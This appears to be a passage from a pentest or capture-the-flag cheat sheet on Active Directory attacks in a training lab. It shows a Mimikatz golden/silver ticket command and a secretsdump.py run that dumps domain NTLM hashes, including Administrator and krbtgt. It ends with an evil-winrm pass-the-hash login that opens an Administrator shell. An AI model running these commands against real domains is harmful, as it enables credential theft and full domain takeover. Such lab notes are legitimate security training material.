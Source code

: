 Create a Golden/Silver Ticket

```console
Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:
 This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.
```

## Domain Privilege Escalation /w secretsdump.py

You need creds for that:

```console 
$ sudo ./secretsdump.py -dc-ip 10.10.227.157 -target-ip 10.10.227.157 backup@spookysec.local                                              
[sudo] password for kantwood:                                                                                                                                                                 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation                                                                                                                                      
                                                                                                                                                                                              
Password:                                                                                                                                                                                     
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                                                                            
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                                                                                 
[*] Using the DRSUAPI method to get NTDS.DIT secrets                                                                                                                                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::                                                                                                        
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                                
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::                                                                                                               
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
```

NTLM hash: 0e0363213e37b94221497260b0bcb4fc

Use Evil-WinRM to connect with that hash:
```console
$ evil-winrm -i 10.10.227.157 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc                                                                                       
                                                                                                                                                                                              
Evil-WinRM shell v3.3                                                                                                                                                                         
                                                                                                                                                                                              
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                       
                                                                                                                                                                                              
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                                                                               
Info: Establishing connection to remote endpoint                                               
                                                                                               
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```
